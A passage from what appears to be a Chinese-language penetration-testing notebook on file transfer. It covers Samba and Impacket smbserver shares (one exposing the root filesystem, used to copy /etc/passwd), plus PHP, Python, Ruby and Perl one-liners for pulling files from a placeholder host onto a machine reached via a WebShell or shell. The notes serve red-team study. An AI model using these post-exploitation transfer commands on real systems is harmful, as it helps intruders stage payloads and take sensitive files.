mkdir -p /srv/samba/fileSare && chown fileshare:fileshare /srv/samba/fileSare && chmod 750 /srv/samba/fileSare
```

4.连接

连接前需要防火墙开启 139 端口，445 个人测试后开不开不影响登录、下载、上传文件等操作。

Linux 连接需要 samba-client。

```plaintext
ubuntu@ip-172-26-7-83:~$ smbclient //1.1.1.1/fileshare -U fileshare fileshare -v
Try "help" to get a list of possible commands.
smb: \> 
```

服务器也有连接记录。

```plaintext
[root@VM-24-2-centos samba]# smbstatus

Samba version 4.14.5
PID     Username     Group        Machine                                   Protocol Version  Encryption           Signing              
----------------------------------------------------------------------------------------------------------------------------------------
3984748 fileshare    fileshare    ip-172-26-7-83 (ipv4:1.1.1.1:39786)  SMB3_11           -                    partial(AES-128-CMAC)

Service      pid     Machine       Connected at                     Encryption   Signing     
---------------------------------------------------------------------------------------------
fileShare    3984748 ip-172-26-7-83 Sun Feb 12 04:23:26 PM 2023 CST  -            -           

No locked files
```

下载文件到当前目录

```plaintext
smb: \> get smb.conf
getting file \smb.conf of size 1733 as smb.conf (1.7 KiloBytes/sec) (average 1.7 KiloBytes/sec)
smb: \> !pwd && ls
/home/ubuntu
smb.conf
```

上传文件由于没权限被拒绝

```plaintext
smb: \> put /etc/passwd testPutFile
NT_STATUS_ACCESS_DENIED opening remote file \testPutFile
```

我们在 smb.conf \[fileshare\] 中添加此账号写入权限

```plaintext
write list = fileshare
```

重新读取配置文件

```plaintext
smbcontrol smbd reload-config
```

重新连接服务器再上传就成功。

```plaintext
ubuntu@ip-172-26-7-83:~$ smbclient //1.1.1.1/fileshare -U fileshare fileshare
Try "help" to get a list of possible commands.
smb: \> put /etc/passwd testPutFile
putting file /etc/passwd as \testPutFile (5.2 kb/s) (average 5.2 kb/s)
smb: \> ls
  .                                   D        0  Sun Feb 12 08:44:31 2023
  ..                                  D        0  Sun Feb 12 07:40:55 2023
  smb.conf                            N     1733  Sun Feb 12 08:35:27 2023
  testPutFile                         A     1920  Sun Feb 12 08:44:32 2023

        82503044 blocks of size 1024. 66327788 blocks available
```

Windows11 不管怎么连接都失败。

```plaintext
d:\nmap>NET USE \\81.70.14.219\fileShare fileshare /USER:fileshare
发生系统错误 67。

找不到网络名。
```

起初以为是端口被拦，换端口也没用，后面排是不是 SMB 服务端版本问题，设置后也无效，暂时未找到解决方案。

参考资料：

-   [How to transfer files to Linux server using Samba - UpCloud](https://upcloud.com/resources/tutorials/transfer-files-linux-samba)
    
-   [Setting up Samba as a Standalone Server - SambaWiki](https://wiki.samba.org/index.php/Setting_up_Samba_as_a_Standalone_Server)
    

#### 4.12.3 Impacket-smbserver

使用 Impacket 中的 smbserver.py 开启 SMB2 Server，用户名和密码都是 root，共享目录设置在 / 根。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-smbserver -username root -password root rootPath / -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

登录并将 \\192.168.0.102\\rootPath 映射为本地 K:。Windows 10 和 11 默认使用 SMB2，去连接 SMB1 服务会提示 SMB1 已经被弃用。

```plaintext
C:\Users\gbb>NET USE K: \\192.168.0.102\rootPath root /USER:root
命令成功完成。
```

查看连接是否建立。

```plaintext
C:\Users\gbb>NET USE
会记录新的网络连接。


状态       本地        远程                      网络

-------------------------------------------------------------------------------
OK           K:        \\192.168.0.102\rootPath  Microsoft Windows Network
命令成功完成。
```

查看有哪些盘符。有 K 盘说明映射成功。

```plaintext
C:\Users\gbb>wmic logicaldisk get caption,name
Caption  Name
C:       C:
D:       D:
K:       K:
```

直接进入 UNC 路径是不行的。

```plaintext
C:\Users\gbb>CD /d \\192.168.0.102\rootPath
'\\192.168.0.102\rootPath'
CMD 不支持将 UNC 路径作为当前目录。
```

所以才需要做盘符映射进入。

```plaintext
C:\Users\gbb>K:

K:\>
```

拷贝所需文件。

```plaintext
K:\>copy .\etc\passwd D:\
已复制         1 个文件。

K:\>dir D:\passwd
 驱动器 D 中的卷是 SoftWare
 卷的序列号是 6A6F-014C

 D:\ 的目录

2021/12/20  09:09             3,137 passwd
               1 个文件          3,137 字节
               0 个目录 44,650,213,376 可用字节
```

或者直接指定共享连接名去操作资源。

```plaintext
C:\Users\gbb\Desktop>DIR \\192.168.0.102\rootPath\Users\raingray\Desktop\
 驱动器 \\192.168.0.102\rootPath中的卷没有标签。
 卷的序列号是 62F9-7CB4

 \\192.168.0.102\rootPath\Users\raingray\Desktop 的目录

2023/02/20  13:01    <DIR>          .
2022/02/04  17:32    <DIR>          ..
2023/02/20  14:10    <DIR>          Burpsuite
2023/02/20  13:01    <DIR>          BurpSuite V2023.2.1
2023/02/20  11:27       770,901,924 BurpSuite V2023.2.1.zip
2022/02/04  17:37             2,338 Microsoft Edge.lnk
               2 个文件    770,904,262 字节
               4 个目录 38,692,884,480 可用字节

C:\Users\gbb\Desktop>COPY "\\192.168.0.102\rootPath\Users\raingray\Desktop\Microsoft Edge.lnk"
已复制         1 个文件。

C:\Users\gbb\Desktop>DIR
 驱动器 C 中的卷没有标签。
 卷的序列号是 1A02-7BC7

 C:\Users\123\Desktop 的目录

2023/02/20  21:03    <DIR>          .
2023/02/20  21:02    <DIR>          ..
2022/02/04  17:37             2,338 Microsoft Edge.lnk
               1 个文件          2,338 字节
               2 个目录 45,802,074,112 可用字节
```

`NET USE \\computername\sharename /del` 退出登录。

```plaintext
C:\Users\gbb>NET USE \\192.168.0.102\IPC$ /del
\\192.168.0.102\IPC$ 已经删除。


C:\Users\gbb>NET USE
会记录新的网络连接。

列表是空的。
```

`NET USE volume: /DELETE` 另一种退出登录方法是指定 volume。`/del` 和 `/DELETE` 选项都是一个意思。

```plaintext
C:\Users\gbb>NET USE K: /DELETE
K: 已经删除。


C:\Users\gbb>net use
会记录新的网络连接。

列表是空的。
```



### 4.13 PHP

当 WebShell 无法执行命令，可以通过脚本下载文件写入。另一种场景是拿到一个系统 Shell 后利用系统自带语言环境下载文件。

直接执行 Code，将 http:///FileName 写入到本地 FileName。

```plaintext
php -r 'file_put_contents("FileName", file_get_contents("http://<Host>/FileName"));'
```

开启 Web 服务器。

```plaintext
php -S <IP>:<Port>
```

### 4.14 Python

下载文件。

Python2 写二进制文件，将 http:///FileName 写入 Path 中。

```plaintext
python2 -c "import urllib2;u=urllib2.urlopen('http://<Host>/FileName');f=open('Path', 'w');f.write(u.read());f.close()"
```

Python3 写二进制文件，将 http:///FileName 写入 Path 中，这里要注意 decode() 中编码要与目标文件编码一致。

```plaintext
python3 -c "import urllib.request;u=urllib.request.urlopen('http://<Host>/Filename');f=open('Path', 'wb');f.write(u.read())"
```

Python3 写文本文件。注意事项：decode() 编码一定要和目标文本编码一致不然会乱码。

```plaintext
python3 -c "import urllib.request;u=urllib.request.urlopen('http://<Host>/FileName');f=open('Path', 'w');f.write(u.read().decode('UTF-8'))"
```

开启 HTTP 服务器。

Python2，在当前目录下开启 HTTP 服务器，端口是 8099。不指定端口默认绑定 8000。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ python2 -m SimpleHTTPServer 8099                                                                                                                                                     1 ⨯
Serving HTTP on 0.0.0.0 port 8099 ...
192.168.0.101 - - [11/Feb/2023 05:47:21] "GET / HTTP/1.1" 200 -
192.168.0.101 - - [11/Feb/2023 05:47:21] code 404, message File not found
192.168.0.101 - - [11/Feb/2023 05:47:21] "GET /favicon.ico HTTP/1.1" 404 -
```

Python3，在 0.0.0.0:8099 开启 HTTP 服务器，根目录在 /home/kali。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 -m http.server -b 0.0.0.0 -d /home/kali/ 8099                                                                                                                                2 ⨯
Serving HTTP on 0.0.0.0 port 8099 (http://0.0.0.0:8099/) ...
192.168.0.101 - - [11/Feb/2023 05:50:11] "GET / HTTP/1.1" 200 -
```

Python3 版本支持的选项更多，可以指定 IP、目录和端口。

### 4.15 Ruby

```plaintext
// 将 <Host>/FileName 下载保存为 Path。只支持 HTTP，如果目标自动重定向到 HTTPS 则会出错。
ruby -e "require 'net/http';Net::HTTP.start('<Host>') { |http| r = http.get('/FileName');open('Path.png', 'wb') { |file| file.write(r.body)}}"
```

### 4.16 Perl

```plaintext
perl -MLWP::Simple -e 'getstore("http://<Host>/FileName", "Path")'
```

## 参考资料

-   [红方人员实战手册](https://github.com/klionsec/RedTeamer)
-   [《The Hacker Playbook 3》](https://www.amazon.com/Hacker-Playbook-Practical-Penetration-Testing-ebook/dp/B07CSPFYZ2)

最近更新：2023年10月31日 22:17:10

发布时间：2022年09月05日 22:25:00
